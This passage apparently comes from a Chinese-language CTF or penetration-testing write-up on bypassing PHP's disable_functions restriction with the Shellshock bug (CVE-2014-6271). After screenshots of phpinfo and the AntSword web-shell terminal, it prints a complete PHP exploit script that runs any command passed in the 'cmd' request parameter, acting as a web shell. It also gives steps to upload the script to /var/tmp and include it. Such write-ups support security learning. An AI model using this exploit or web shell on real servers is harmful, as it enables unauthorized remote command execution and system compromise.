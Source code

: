 看phpinfo()

![image-20220327104501696](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271045766.png)

上蚁剑

![image-20220327104626381](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271046479.png)



AntSword 虚拟终端中已经集成了对 ShellShock 的利用，直接在虚拟终端执行命令即可绕过disable_functions：

![image-20220327104740788](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271047878.png)



可以选择手动利用。在有权限的目录中（/var/tmp/shell.php）上传以下利用脚本：

```php
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   //mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   error_log('a',1);
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>
```

上传到`/var/tmp`目录下,命令执行包含该文件

![Inked202203271051750_LI](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271320577.jpg)



## php-json-bypass
